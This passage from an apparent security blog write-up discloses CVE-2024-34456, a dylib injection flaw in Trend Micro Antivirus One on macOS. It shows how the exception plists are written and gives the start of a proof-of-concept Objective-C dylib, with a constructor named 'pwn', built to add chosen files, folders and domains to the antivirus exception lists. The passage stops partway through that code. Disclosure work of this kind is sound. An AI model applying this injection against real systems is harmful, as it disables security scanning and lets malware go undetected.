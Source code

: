 Looking at the **addToExceptionFiles** method we can figure out that it opens the **exFiles.plist** file in the path "**/Users/syrion/Library/Containers/com.Trend Micro.DrSafety/Data/Library/Application Support**"" and writes the exception file inside.

{{< image src="img/2024-05-06-CVE-2024-34456-trend-micro-antivirus-one-dylib-injection/img9.png" caption="Figure 9 - addToExceptionFiles Method" wrapper="text-center">}}  

The other methods do the same using the **exFolders.plist** and **exDomains.plist** files in the same path.

{{< image src="img/2024-05-06-CVE-2024-34456-trend-micro-antivirus-one-dylib-injection/img10.png" caption="Figure 10 - Exception Files" wrapper="text-center">}} 


These plists contain a list of the exceptions, for example in the image below we can see the **exFile.plist** content when we add a file to the exceptions.

{{< image src="img/2024-05-06-CVE-2024-34456-trend-micro-antivirus-one-dylib-injection/img11.png" caption="Figure 11 - exFiles.plist Content" wrapper="text-center">}}  

### Dylib Development
At this point we need to craft a dylib that add our objects in the exception list, for this purpose, I want to add the following objects:
* The file: "**/tmp/poc/proof.txt**”
* The folder: :"**/tmp/poc**”
* The url: "**https://syrion.me**"

We need to import the **VirusCleaner** framework and use the three methods. We can dump classes and methods using the [class-dump](https://github.com/nygard/class-dump) tool.

{{< image src="img/2024-05-06-CVE-2024-34456-trend-micro-antivirus-one-dylib-injection/img12.png" caption="Figure 12 - Class-dump Result" wrapper="text-center">}}   


We can create our dylib as shown below.

```Objective-c
#import <Foundation/Foundation.h>
#import <dlfcn.h>
#import <Cocoa/Cocoa.h>

@interface VCConfig : NSObject
{
    NSMutableOrderedSet *_exceptionFiles;
    NSMutableOrderedSet *_exceptionFolders;
    NSMutableOrderedSet *_exceptionDomains;
}

+ (id)sharedInstance;

@property(retain) NSMutableOrderedSet *exceptionDomains; // @synthesize exceptionDomains=_exceptionDomains;
@property(retain) NSMutableOrderedSet *exceptionFolders; // @synthesize exceptionFolders=_exceptionFolders;
@property(retain) NSMutableOrderedSet *exceptionFiles; // @synthesize exceptionFiles=_exceptionFiles;
- (void)removeFromExceptionDomains:(id)arg1;
- (void)addToExceptionDomains:(id)arg1;
- (void)removeFromExceptionFolders:(id)arg1;
- (void)addToExceptionFolders:(id)arg1;
- (void)removeFromExceptionFile:(id)arg1;
- (void)addToExceptionFiles:(id)arg1;
- (id)init;

@end


__attribute__((constructor)) static void pwn(int argc, const char **argv) {
```